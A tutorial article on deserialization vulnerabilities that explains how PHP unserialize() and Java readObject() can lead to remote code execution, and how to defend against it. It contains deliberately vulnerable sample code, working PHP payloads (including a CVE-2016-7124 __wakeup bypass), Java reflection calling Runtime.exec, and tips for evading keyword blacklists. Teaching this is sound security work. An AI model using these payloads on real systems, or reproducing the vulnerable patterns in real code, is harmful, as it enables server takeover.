


专业英语的一次分享。[Slides](https://slides.com/mercury/why-so-serialize)。

<!--more-->

## Abstract

A brief and easy-to-understand introduction of deserialization vulnerability is presented in this article. Demonstrating with examples in PHP and Java programming language, the article shows how to achieve RCE by exploiting such vulnerabilities and several ways of defending, including language-specific methods and DXP.

## Introduction

An attacker can trigger RCE attacks through a dangerous, yet commonly-used technique called deserialization. Here we introduce some basic concepts about deserialization vulnerability.

### Serialization and Deserialization

**Serialization** is the process of turning some object into a data format that can be restored later. People often serialize objects in order to save them to storage, or to send as part of communications.

Serialization is adapted as a cross-platform, language-independent technique to address the problem of data persistence as well as data transmission. In _RFC 1014_[^1], a standard was introduced where objects are serialized to bytes and vice versa.

On the other hand, **deserialization** is the reverse of that process, taking data structured from some format, and rebuilding it into an object. Today, the most popular data format for serializing data is JSON. Before that, it was XML.

However, many programming languages offer a native capability for serializing objects. These native formats usually offer more features than JSON or XML, including customizability of the serialization process.

Unfortunately, the features of these native deserialization mechanisms can be repurposed for malicious effect when operating on untrusted data. Attacks against deserializers have been found to allow denial-of-service, access control, and RCE attacks[^2].

### RCE Attack

RCE, namely _Remote Code Execution_, is one of the most common types of attacks towards web applications. By triggering RCE, an attacker is able to execute PHP, Python, Java or even OS-level code directly from the Internet. Therefore, the attacker basically controls the server behind the web application, which is surely critical.

## Examples of Serialized Data

Here we present two examples of serialized data in PHP and Java.

### PHP

For example, here is a PHP class `A` containing an integer and an array of strings. And `b` is an instance of class `A`.

```php
<?php

class A {
    public $one = 1;
    public $two = array('apple', 'pear', 'banana');
}

$b = new A();
echo serialize($b);

?>
```

Now if we serialize `b`, we got the serialized data below:

```php
O:1:"A":2:{s:3:"one";i:1;s:3:"two";a:3:{i:0;s:5:"apple";i:1;s:4:"pear";i:2;s:6:"banana";}}
```

Here `O` indicates an object, with a class name `A` whose length is one. It has two members, where the first one is called `one` which is an integer with value 1. The second one is called `two` which is an array with 3 elements: apple, pear, banana with index 0,1 and 2.

Readers may find this rule of serialization easy to remember, because it uses only ASCII characters to construct serialized data.

### Java

In Java, things are not as simple as in PHP.

```java
import java.io.Serializable;

class TestSerial implements Serializable {
       public byte version = 100;
       public byte count = 0;
}
```

For an object containing only two bytes `version` and `count` above, it takes 52 bytes to store its serialized data, which seems to be random[^3]:

```
AC ED 00 05 73 72 00 0A 53 65 72 69 61 6C 54 65

73 74 A0 0C 34 00 FE B1 DD F9 02 00 02 42 00 05

63 6F 75 6E 74 42 00 07 76 65 72 73 69 6F 6E 78

70 00 64
```

Since we have seen what serialized data looks like, and we already know that deserialization turns these data into language-specific objects, we are going to demonstrate why deserialization is dangerous, starting from PHP.

## PHP Deserialization

PHP uses a function called `unserialize()` to perform deserialization[^4]. The key to carry out our attack is to control the argument of this function, so that we can create arbitrary objects that enable us to do nearly anything.

### A Simple Scenario

```php
<?php

class merc {
    var $test = '123';
}

$object = new merc();
$data = serialize($object);
$new_object = unserialize($data);
```

For instance, if we pass in the string below to our `$data`, we can create a `merc` object whose value of `test` is 456, although in the original code there's no way to change the value of test for a `merc` object.

```php
O:4:"merc":1:{s:4:"test";s:3:"456";}
```

Such an attack is certainly useless and can never achieve RCE. That is where magic functions come in handy.

### Magic Functions

Every PHP object has these magic functions that will be called **automatically** under special conditions[^4].

- `__construct()`: Called when the object is created using new operator, while using `unserialize()` won't have the same effect.
- `__destruct()`: Called when the object is being destroyed.
- `__toString()`: Called whenever the object needs to be converted to a string.
- `__call()`: Called when an access to a member function failed.
- `__wakeup()`: Called after `unserialize()` is called.

The reason we need those functions is that it is impossible to call any function manually through deserialization vulnerability, so we need something that would be called **automatically**.

Besides, though deserialization may allow us to control **attributes** of an object, we can by no means modify its **member functions**. That leads us to think about the possibility to call other objects' member functions, which can be found inside magic functions sometimes.

### Searching for Evil Functions

```php
<?php
class merc {
    public $test;
    function __construct() {
        $this->test = new L();
    }

    function __destruct() {
        $this->test->goodbye();
    }
}

class L {
    function goodbye() {
        echo "Bye~";
    }
}
```

Here `merc` contains an attribute `test`, which is actually an instance of class `L`. It will call `goodbye()` function of class `L` when being destroyed, and everything seems normal.

However, here is another class `Evil` with a `goodbye()` function containing one of the most dangerous functions `eval()`.

```php
class Evil {
    var $bye_message;
    function goodbye() {
        eval($this->bye_message);
    }
}

unserialize($_GET['test']);
```

This function reads a string, treat it as a code snippet, and execute it without any examination. **Under no circumstances should it be used in code**.

Since we can pass in our data through the GET parameter, it is a wise decision to simply create a `merc` object that calls `goodbye()` function of class `Evil`. Our payload is given below, where we put serialized data into the GET parameter test.

```
http://url/?test=O:4:"merc":1:{s:4:"test";O:4:"Evil":1:{s:11:"bye_message";s:10:"phpinfo();";}}
```

Next, we are going to show how the payload is constructed.

```php
<?php

class merc {
    public $test;
    function __construct() {
        $this->test = new Evil();
    }
}

class Evil {
    var $bye_message = "phpinfo();";
}

$object = new merc();
echo serialize($object);
```

The payload is actually generated by writing PHP code, in which we initialized the attribute `test` to be an instance of class `Evil`, and modified `$bye_message` of `test` to be `phpinfo()`, a function in PHP.

If this function is called, we'll see a page similar to Figure 1, proving that we have an RCE now.

 page.")

So after our modification, in the `goodbye()` function of `test` we'll execute `eval("phpinfo();")`, performing an attack successfully.

### Bypassing protections

```php
<?php
class convent {
    var $warn = "No hacker.";

    function __destruct() {
        eval($this->warn);
    }

    function __wakeup() {
        foreach(get_object_vars($this) as $k => $v) {
            $this->$k = null;
        }
    }
}

unserialize($_POST[cmd]);
```

We have already shown a simple RCE attack above, but that is too simple and ideal. In this case we have a `__wakeup()|`function which wipes out the value of each attribute. Obviously there is no way to do harmful things without bypassing this `__wakeup()` function.

Fortunately, CVE-2016-7124[^5] tells us that when deserializing our data into an object, if it has fewer attributes than declared, `__wakeup()` function will be skipped[^6].

Take our payload as example:

```php
cmd=O:7:"convent":2:{s:4:"warn";s:10:"phpinfo();";}
```

The `convent` object has only one attribute here, which is `warn` with the value `phpinfo();`, whereas we have declared that it has two attributes. So right now `__wakeup()` function will not be called, and `phpinfo()` is executed.

### Property-Oriented Programming

In real-world vulnerability mining, a more complex technique called POP (Property-Oriented Programming) chain is more commonly used.



In Figure 2, starting from a magic function of class `A`, it may be designed to call `goodbye()` function in `B`, but ended up being modified by attackers to call `goodbye()` in `C`. After that, it tries to call `foo()` in `D` but failed, for there is no such function in `D`. Thus the magic function `__call()` is called, resulting in the execution of `bar()` of class `E`. The chain goes on and on and on, until it reaches a vulnerable function like `eval()` and triggers RCE.

### Advanced Topics

To sum up, deserialization attacks in PHP usually requires an `unserialize()` function whose argument is not sanitized so that attackers has the ability to create objects as they like. Way of defending such attacks is pretty simple: Always sanitize the argument of `unserialize()`.

However, santizing is **not enough** for there are many fields not covered here in the world of PHP deserialization:

- `phar://` Deserialization
- Session Deserialization
- String Escape
- Object Escape
- SoapClient + Deserialization = SSRF
- Exception + Deserialization = XSS

## Java Deserialization

Few backend developer uses PHP nowadays, and Java is becoming the mainstream programming language of enterprise applications.

In Java, a class needs to implement the `Serializable` interface to be serializable. We usually utilize `writeObject()` for serializing, and `readObject()` for the opposite (See Table 1). Clearly, if `readObject()` is overrided by the attacker, RCE happens.

| Interface              | Class                | Serializing Method | Deserializating Method |
| ---------------------- | -------------------- | ------------------ | ---------------------- |
| `java.io.Serializable` | `ObjectOutputStream` | `writeObject()`    | `readObject()`         |

### Ideal Scenario

Here is a simple example illustrating how we can maliciously override this function to execute our commands[^7].

```java
public class Evil implements Serializable {
    public String cmd;

    private void readObject(java.io.ObjectInputStream stream) throws Exception {

        stream.defaultReadObject();
        Runtime.getRuntime().exec(cmd);
    }
}
```

We `readObject()` like usual, and use `Runtime.exec()` to achieve RCE. But still, it is too ideal for real attacks.

### Reflection

There's no magic functions in Java. Instead, a much more powerful measure, reflection, is useful both in production and attacks[^7].

Reflection is a concept that enables you to retrieve the information of Class or Object dynamically through calling special methods. It is super-handy, and super-handy means super-dangerous. Whatever language you are using, where there is reflection, there are deserialization vulnerabilities.

Back to Java, every class in Java is itself an Object of `java.lang.Class`, which we usually call ClassObject. It contains meta information for a specific class, such as what constructors, methods and attributes it has.

Suppose we have a class `User` below:

```java
public class User {
    private String name;

    public User(String name) {
        this.name=name;
    }
    public void setName(String name) {
        this.name=name;
    }
    public String getName() {
        return name;
    }
}
```

#### Creating the ClassObject

To create a ClassObject for `User`, there are three ways:

- `Class.forName("reflection.User")`
- `User.class`
- `new User().getClass()`

We use the first way in the following part as it is most frequently-used.

#### Accessing the Attributes

To access the attributes, we try to get a constructor with one string argument of class `User`, and make use of the constructor to create an instance with the argument `mercury`. Then we get the attribute `name`, set it as accessible as it is private previously, and change its value to `merc`.

```java
Class UserClass = Class.forName("reflection.User");

Constructor constructor = UserClass.getConstructor(String.class);
User user = (User) constructor.newInstance("mercury");

Field field = UserClass.getDeclaredField("name");
field.setAccessible(true);
field.set(user, "merc");
```

#### Accessing Methods

As for methods, we create the instance the same way before we get the `setName()` method (which needs one string argument) and invoke the method with our instance and argument `merc`.

```java
Class UserClass = Class.forName("reflection.User");

Constructor constructor = UserClass.getConstructor(String.class);
User user = (User) constructor.newInstance("mercury");

Method method = UserClass.getDeclaredMethod("setName", String.class);
method.invoke(user, "merc");
```

#### Executing Code

Finally, to achieve RCE we need a general way to execute arbitrary code. Using the class `java.lang.Runtime` instead, we retrieve its static method `getRuntime()` and invoke it with `null` because it is _static_. Then we retrieve the `exec()` method and invoke it with the object `runtime` as well as a string `calc.exe`, starting the calculator to show that we have achieved RCE.

```java
// java.lang.Runtime.getRuntime().exec("calc.exe");
Class runtimeClass = Class.forName("java.lang.Runtime");

// getRuntime() is static
Object runtime = runtimeClass.getMethod("getRuntime").invoke(null);

runtimeClass.getMethod("exec", String.class).invoke(runtime, "calc.exe");
```

#### Why Reflection

It may seem unnecessarily complicated, but it is indispensable for an attacker. Using reflection brings flexibility and offers more choice in your attacking adventure. Moreover, in this way it's easier to bypass security restrictions.



For instance, suppose the target application blacklisted the word `Runtime`, like Figure 3. In the traditional way, the name of method (`getRuntime()`) has to be consequent, which would be banned here. With reflection, you may split the name of method, because now it's nothing more than **a normal string**! Or you can even encode it with base64. Actually, you can transform it as you like to cope with different situations, and transforming the name of methods is just the basic usage of reflection.

### Locating Vulnerability

Now we will consider the problem from the defender's perspective. That is, how we can locate the deserialization vulnerabilities in our Java code.

First we can check out our source code, starting from the entrypoints of deserialization, like these methods involving deserializing actions[^8].

```java
ObjectInputStream.readObject
ObjectInputStream.readUnshared
XMLDecoder.readObject
Yaml.load
XStream.fromXML
ObjectMapper.readValue
JSON.parseObject
```

Examining the libraries we have used also helps. For example, if we have used the library **CommonsCollections**, we have to pay extra attention to security issues. You may found tools like _ysoserial_[^9], _marshalsec_[^10] and _JavaDeserH2HC_[^11] quite helpful.

Last but not least, remember that every class that can be serialized must implement the `Serializable` interface, so you just need to watch out for these classes.

On the other hand, we can monitor the network traffic and look for specific bytes. `AC ED 00 05` often appears at the beginning of serialized data in Java, while `rO0AB` is its base64-encoded form[^3]. There are also special network protocols in Java like RMI and JMX that is completely based on serialization[^7]. Take care of them.

### Defending

Once we have located the potential vulnerabilities, we naturally think about how to defend deserialization attacks.

Sanitize your data before deserializing is always a good choice, but there is no way to guarantee this in large projects.

Alternatively, you may try to ban some dangerous classes, like `InvokerTransformer`. Luckily, tools like _SerialKiller_[^12] and _contrast-rO0_[^13] can help us with that.

What's more, you can also define a whitelist, so that only those classes on the whitelist can be deserialized.

```java
@Override
protected Class<?> resolveClass(ObjectStreamClass desc) {
    if (!desc.getName().equals(User.class.getName())) {
        throw new InvalidClassException(
            "Unauthorized unserialization attempt",
            desc.getName());
    }

    return super.resolveClass(desc);
}
```

A concrete example of whitelisting is to hook the method `ObjectInputStream::resolveClass()`. Before deserializing using `readObject()`, `resolveClass()` is called to resolve the name of the class to be deserialized. Hence, we can hook this method and restrict the name of the class to be on our whitelist, which contains only class `User` in this case. Otherwise, an exception is thrown and the data won't be deserialized[^8].

## Data eXchange Protocol

In recent years, serialization is being replaced by DXP (Data eXchange Protocol).

### Various Standards

XML, which used to be very popular, uses an html-like grammar.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<note>
  <to>Tove</to>
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
</note>
```

JSON on the other hand, now replaces XML with a simpler grammar indicating key-value pairs.

```json
{
  "name": "Tom",
  "Grade": 1,
  "age": 11,
  "gender": "M"
}
```

Meanwhile, DXP does not have to produce readable data. Binary DXP protocols like protobuf, thrift, hessian are also rising these years[^14]. It is really hard to say which of them is better.

### Common Feature

But there is something in common, that they are all cross-platform and language-independent. And by observing the development of DXP, we find that it is becoming faster, safer, and with less redundant information. It is surely faster for it does not contain as much information as serialized data.

To demonstrate why it is safer, we can take JSON as an example. Whatever key or value we pass in, they are just strings and integers, and will only be treated as strings and integers. In other words, **what is data is data**. Data should never be treated as code.

But at the mean time, just because it will not be treated as code, the programmer has to do some extra work to make use of it in the code. Therefore, DXP is actually sacrificing flexibility for security.

### Security Issues

Despite the fact that DXP is invulnerable to deserialization attacks, handling DXP involves new security issues.

XML is vulnerable to XXE (XML eXternal Entity) attack, a technique that hacked Wechat Pay in 2018. Java libraries handling DXP data like XMLDecoder, Jackson and Fastjson are all vulnerable to deserialization attacks. Inappropriate handling of binary DXP data leads to heap overflow as well. It must be clarified that using DXP only does not mean you are safe.

## Conclusions

Deserialization vulnerabilities affects various programming languages in language-specific ways, which can eventually leads to RCE. It is actually hard to discover, because the source code on server is necessary to find such a vulnerability. It is also hard to exploit, as constructing a POP chain is basically putting harmless code together to do harmful things.

In recent years, DXP is being adopted to avoid such vulnerabilities. Nevertheless, serialization technique still cannot be fully replaced due to its flexibility and better language integration.

## Reference

[^1]: [RFC 1014](https://tools.ietf.org/html/rfc1014)
[^2]: [Serialization and Deserialization](https://juejin.cn/post/6844903765921808397)
[^3]: [Dialysis of Java Deserialization Algorithm](https://www.iteye.com/blog/longdick-458557)
[^4]: [Understanding PHP Deserialization Vulnerability in One Article](https://www.k0rz3n.com/2018/11/19/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E6%B7%B1%E5%85%A5%E7%90%86%E8%A7%A3PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E)
[^5]: [CVE-2016-7124](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-7124)
[^6]: [Learning Various Exploiting Techniques of PHP Deserialization Vulnerability through CTF](https://xz.aliyun.com/t/7570)
[^7]: [Principle of Java Deserialization Vulnerability](https://xz.aliyun.com/t/6787)
[^8]: [Mastering Java Deserialization Vulnerability](https://xz.aliyun.com/t/2041)
[^9]: [ysoserial](https://github.com/frohoff/ysoserial)
[^10]: [marshalsec](https://github.com/mbechler/marshalsec)
[^11]: [JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)
[^12]: [SerialKiller](https://github.com/ikkisoft/SerialKiller)
[^13]: [contrast-rO0](https://github.com/Contrast-Security-OSS/contrast-rO0)
[^14]: [Thinking about gRPC: Why Protobuf](http://hengyunabc.github.io/thinking-about-grpc-protobuf/)
